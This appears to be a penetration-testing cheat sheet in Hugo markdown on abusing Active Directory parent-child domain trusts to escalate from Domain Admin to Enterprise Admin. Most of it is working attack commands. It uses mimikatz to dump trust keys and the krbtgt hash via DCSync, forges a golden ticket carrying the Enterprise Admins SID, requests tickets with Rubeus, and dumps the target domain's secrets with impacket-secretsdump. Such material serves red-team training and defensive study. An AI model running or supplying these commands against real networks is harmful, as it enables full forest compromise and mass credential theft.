 ```yaml
---
title: "Abuse Parent Child Domain Trusts"
date: 2024-7-2
tags: ["kerberos", "da", "ea", "active directory", "ad", "domain controller", "Windows", "golden ticket", "privesc", "mimikatz", "rubeus", "trusts"]
---
```


---
### Privesc from DA (Domain Admin) to EA (Enterprise Admin)

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Check trust relationships

<div>

```powershell
# Get all trusted domain objects in a forest
Get-ADTrust -Filter *
```

```powershell
# Returns a list of trusted domains
nltest /domain_trusts
```

```powershell
# Gets a collection of the trust relationships of the current forest
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
```

</div>

#### 2. Get current and target domain SID

<div>

```powershell
./mimikatz.exe 'lsadump::trust' 'exit'
```

</div>

#### 3. Get krbtgt hash of current domain

<div>

```powershell
./mimikatz.exe 'lsadump::dcsync /all /csv' 'exit'
```

</div>

#### 4. Forge a golden ticket

<div>

```powershell
# Append '-519' to target domain SID
./mimikatz.exe 'kerberos::golden /user:Administrator /rc4:<HASH> /domain:<CURRENT_DOMAIN> /sid:<CURRENT_DOMAIN_SID> /sids:<TARGET_DOMAIN_SID>-519 /ticket:C:\ProgramData\ticket.kirbi' 'exit'
```

<small>*Note: Try different high value hashes if failed*</small>

</div>

#### 5. Request a tgt ticket of target domain

<div>

```powershell
./rubeus.exe asktgs /service:cifs/<TARGET_DOMAIN> /domain:<DOMAIN> /dc:<DC> /ticket:C:\ProgramData\ticket.kirbi /outfile:C:\ProgramData\ticket_2.kirbi /nowrap /ptt
```

</div>

{{< /tabcontent >}}

#### 6. Secrets Dump

{{< tab set2 tab1 active >}}Linux{{< /tab >}}
{{< tab set2 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 1. Convert kirbi to ccache

<div>

```bash
python3 rubeustoccache.py <BASE64_TICKET_2> secrets.kirbi secrets.ccache
```

</div>

#### 2. Secrets Dump

<div>

```bash
export KRB5CCNAME=secrets.ccache
```

```bash
impacket-secretsdump administrator@<TARGET_DOMAIN> -k -no-pass
```

</div>

<small>*Ref: [RubeusToCcache](https://github.com/SolomonSklash/RubeusToCcache)*</small>

{{< /tabcontent >}}

{{< tabcontent set2 tab2 >}}
TO-DO
{{< /tabcontent >}}

<br>
